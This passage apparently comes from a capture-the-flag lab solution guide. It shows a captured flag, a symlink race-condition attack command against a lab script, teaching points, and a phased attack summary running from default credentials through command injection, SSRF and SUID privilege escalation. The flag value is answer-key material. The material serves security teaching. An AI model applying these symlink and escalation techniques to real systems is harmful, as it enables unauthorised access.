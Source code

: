 **Output:**
```
FLAG{ARAGORN91886362}
FLAG CAPTURED!
Process completed
```

```bash
# Alternative: Symlink attack
ln -sf /dev/stdout /var/log/race_flag
/usr/local/bin/race.sh
```

**Output:**
```
FLAG{ARAGORN91886362}
rm: can't remove '/var/log/race_flag': Permission denied
Process completed
```

**Teaching Points:**
- Race conditions occur between file operations
- Symbolic links can redirect file operations
- Time-of-check vs time-of-use vulnerabilities

**Common Student Mistakes:**
- Not running monitoring before triggering script
- Using sleep delays that are too long
- Not understanding symbolic link attacks

---

## Attack Flow Summary

### Phase 1: Initial Access
1. Port scanning reveals services (SSH, HTTP, RTSP)
2. Default credentials provide SSH access
3. Web enumeration identifies vulnerable endpoints

### Phase 2: Information Gathering
1. Configuration files leak sensitive data
2. Service banners disclose system information
3. HTML comments reveal debug information

### Phase 3: Exploitation
1. Command injection in CGI scripts
2. Path traversal accesses restricted files
3. SSRF reaches internal services

### Phase 4: Privilege Escalation
1. SUID binaries enable privilege elevation
2. World-writable scripts allow persistence
3. Race conditions bypass security checks

---